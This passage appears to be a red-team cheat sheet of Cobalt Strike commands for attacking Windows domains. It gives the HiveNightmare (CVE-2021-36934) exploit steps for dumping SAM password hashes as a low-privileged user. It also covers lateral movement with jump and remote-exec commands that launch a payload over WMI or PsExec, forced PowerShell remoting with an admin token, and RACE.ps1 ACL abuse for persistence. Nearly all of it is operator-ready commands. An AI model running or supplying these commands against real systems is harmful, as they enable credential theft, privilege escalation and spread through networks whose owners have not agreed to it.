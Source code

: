 ### HiveNightmare priv esc SAM dump (CVE-2021–36934)
Exploit in Windows 10 and 11 which allows you to read the SAM, SYSTEM and SECURITY hives as a low-privileged user
```
# First check privileges to read SAM hive
run icacls C:\Windows\System32\config\SAM
--> If the results show success and the group BUILTIN\Users has privileges (I)(RX) then the SAM file should be readable by all users! 

# Exploit: Csharp implementation [HERE](https://github.com/cube0x0/CVE-2021-36934)
execute-assembly C:\CVE-2021-36934.exe
--> Dumps hashes to console upon successful exploitation
```

------------------------------------------------------------------------------------------
## Lateral Movement
Cobalt Strike jumping
```
# Jump using WinRM if it's enabled for the current user on the target system
jump winrm64 ops-jumpbox.lab.com HTTPSLISTENER

# Jump using PsExec if it's enabled for the current user on the target system
jump psexec64 ops-jumpbox.lab.com HTTPSLISTENER
```

Cobalt Strike remote-exec - Executes commands on a target system using psexec, winrm or wmi
```
# remote-exec using WMI
remote-exec wmi ops-jumpbox.lab.com cmd.exe /c "C:\Users\Public\payload.exe"

# remote-exec using PsExec
remote-exec psexec ops-jumpbox.lab.com cmd.exe /c "C:\Users\Public\payload.exe"
```

Enable Powershell Remoting manually
```
# Enable on local system with Admin privileges
powershell Enable-PSRemoting –Force

# Enable on remote system 
make_token AD\admin Password123! --> Token with Admin privileges on remote system is required
run psexec.exe \\TestComputer.lab.com -h -s powershell.exe Enable-PSRemoting -Force

# Test remote access
powershell Invoke-Command -ComputerName TestComputer -ScriptBlock { whoami; hostname }
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
Stealthier than above method since it doesn't touch disk
```
powershell-import --> RACE.ps1
make_token AD\Admin password --> This tool requires Admin privileges on the remote system being targeted

powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-jumpbox.lab.com --> Force enable PS remoting for the specific user
powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-jumpbox.lab.com --> (Optional) Force enable WMI for the specific user

# Now we can move laterally in CS with WinRM for the specified user
make_token AD\testuser password
jump [winrm/winrm64] ops-jumpbox.lab.com HTTPSLISTENER
```
